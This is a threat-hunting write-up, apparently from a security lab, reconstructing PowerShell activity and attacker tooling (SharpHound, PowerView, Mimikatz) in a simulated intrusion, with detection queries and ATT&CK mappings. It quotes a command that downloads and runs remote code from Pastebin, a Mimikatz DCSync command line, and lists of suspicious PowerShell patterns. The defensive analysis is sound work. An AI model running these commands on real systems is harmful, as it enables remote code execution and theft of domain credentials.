





# 02 – PowerShell and Attacker Tooling

## Executive Summary

PowerShell played a central role throughout the Stuxbot intrusion. Following execution of the malicious OneNote document, the attacker leveraged PowerShell to retrieve remote payloads, execute code directly in memory, establish command-and-control communications, and deploy post-exploitation tooling.

Analysis of Windows Sysmon telemetry and PowerShell Script Block Logging also revealed the deployment of several well-known offensive security tools, including **SharpHound**, **PowerView**, and **Mimikatz**.

Together, these artifacts provide high-confidence evidence of deliberate attacker activity targeting the Active Directory environment.

The investigation correlated process execution telemetry, PowerShell command-line artifacts, and script block contents to reconstruct attacker activity and identify detection opportunities across the intrusion chain.

---

# Investigation Objectives

The objectives of this phase were to:

- Investigate PowerShell execution.
- Identify remote payload retrieval techniques.
- Analyze attacker PowerShell commands.
- Identify offensive security tools deployed during post-exploitation.
- Document PowerShell-based Indicators of Compromise.
- Develop reusable detection opportunities.

---

# PowerShell Execution

PowerShell was executed shortly after `invoice.bat` was launched from Microsoft OneNote.

The command line revealed a classic download-and-execute pattern using publicly accessible infrastructure.

## Investigation Query

```text
process.name:"powershell.exe"
```

---

## Figure 1

*PowerShell execution observed following the malicious batch file.*



The query was used to identify PowerShell process creation events and examine their command-line arguments in the context of the initial execution chain.

---

# Remote Payload Retrieval

Analysis of the PowerShell command line revealed that the attacker retrieved content directly from **Pastebin**.

Observed command:

```powershell
iex (iwr https://pastebin.com/raw/33Z1jP6J)
```

This technique combines:

- Invoke-WebRequest (IWR)
- Invoke-Expression (IEX)

allowing remote code to be downloaded and executed entirely in memory.

This behavior significantly reduces forensic artifacts left on disk.

The observed command demonstrates a download-and-execute technique in which PowerShell retrieves remote script content and immediately evaluates it. This provides evidence of remote code execution without requiring the retrieved script to be saved as a standalone file.

---

## Detection Opportunities

The following command-line patterns should be considered potentially suspicious when correlated with execution context, parent processes, and network activity:

```text
Invoke-WebRequest

Invoke-Expression

DownloadString

Net.WebClient

Start-BitsTransfer
```

Common detection queries include:

```text
process.command_line:*Invoke-WebRequest*
```

```text
process.command_line:*DownloadString*
```

```text
process.command_line:*iex*
```
These queries represent additional hunting opportunities rather than confirmation that every listed command was observed during the investigation.

---

## Figure 2

*PowerShell retrieving a remote payload from Pastebin.*



---

# Encoded PowerShell

Encoded PowerShell execution was considered as an additional hunting opportunity because attackers may use encoded commands to obscure execution arguments.

Typical indicators include:

```text
-enc

-EncodedCommand

FromBase64String
```

Supplementary Hunting Query:

```text
process.command_line:*-enc*
```
This query was not presented as a confirmed finding of encoded PowerShell execution in the Stuxbot intrusion.

---

# PowerShell Script Block Logging

Script Block Logging provides visibility into PowerShell code executed in memory, even when commands are heavily obfuscated.

Unlike process creation events, Script Block Logging records the actual script content executed by PowerShell.

During the investigation, Script Block Logging exposed PowerView reconnaissance commands executed against the Active Directory environment.

Investigation query:

```text
powershell.file.script_block_text:*share*
```

---

## Figure 3

*PowerView functions recovered through PowerShell Script Block Logging.*



The query was used to examine PowerShell script block contents associated with network share enumeration, providing additional visibility beyond process creation telemetry.

---

# Offensive Tooling Identified

Multiple offensive security tools were recovered during the investigation.

| Tool | Purpose |
|------|---------|
| SharpHound | Active Directory enumeration |
| PowerView | PowerShell reconnaissance |
| Mimikatz | Credential theft |
| default.exe | Primary malware payload |

The presence of these tools suggests a structured post-exploitation sequence involving Active Directory reconnaissance, potential privilege escalation, and credential access activity.

---

# SharpHound

SharpHound is the data collection component of the BloodHound framework.

Observed activities include:

- Account Discovery
- Group Enumeration
- Session Enumeration
- Local Administrator Discovery
- Trust Enumeration

MITRE ATT&CK

- T1087 — Account Discovery
- T1069 — Permission Group Discovery

---

## Figure 4

*SharpHound execution observed during post-exploitation.*



SharpHound execution was identified as part of the Active Directory reconnaissance phase. Its collection capabilities can support the identification of privileged relationships and potential attack paths within a domain environment.

---

# Mimikatz

Mimikatz was executed following Active Directory reconnaissance.

Process arguments revealed:

```text
lsadump::dcsync /domain:eagle.local /all /csv exit
```

This indicates an attempted **DCSync** operation rather than local credential dumping.

The observed command attempts to retrieve domain credential material through Active Directory replication functionality. The command-line evidence supports an attempted DCSync operation but does not independently establish that credential extraction succeeded.

Detection query:

```text
process.name:"mimikatz.exe"
```

Additional hunting queries:

```text
process.command_line:*lsadump*
```

```text
process.command_line:*dcsync*
```

---

## Figure 5

*Mimikatz execution and DCSync process arguments.*



---

# PowerShell Indicators of Compromise

Observed PowerShell behaviors included:

- Remote payload retrieval
- In-memory execution
- Script Block Logging artifacts
- Active Directory reconnaissance
- PowerShell retrieving and immediately executing remote content from untrusted infrastructure
- PowerShell downloading remote content

These behaviors collectively provide high-confidence indicators of malicious activity.

---

# Detection Opportunities

Recommended monitoring includes:

### High Severity

- Mimikatz execution
- PowerView execution
- SharpHound execution
- PowerShell using Invoke-Expression
- PowerShell downloading remote content

### Medium Severity

- Encoded PowerShell
- PowerShell launched from Microsoft Office
- Script Block Logging containing reconnaissance functions

### Low Severity

- Unusual PowerShell network activity
- PowerShell executed from temporary directories

These severity categories are illustrative detection priorities, not validated alert classifications from the lab environment.

---

# MITRE ATT&CK

| Tactic | Technique | ID |
|---------|-----------|----|
| Execution | PowerShell | T1059.001 |
| Discovery | Network Share Discovery | T1135 |
| Discovery | Account Discovery | T1087 |
| Discovery | Permission Group Discovery | T1069 |
| Credential Access | DCSync | T1003.006 |

The technique mappings reflect observed execution and reconnaissance activity, together with the attempted DCSync operation identified through Mimikatz process arguments.

---

# Phase Summary

PowerShell served as the primary execution engine throughout the Stuxbot intrusion.

Combined with Script Block Logging, Sysmon process telemetry, and command-line analysis, it was possible to reconstruct payload delivery, identify offensive tooling, and document attacker tradecraft with high confidence.

These findings provide valuable detection opportunities that can be integrated into enterprise threat hunting and detection engineering workflows.

This phase demonstrated how correlating endpoint process telemetry with PowerShell Script Block Logging can reveal malicious execution chains, remote payload retrieval, Active Directory reconnaissance, and attempted credential access.
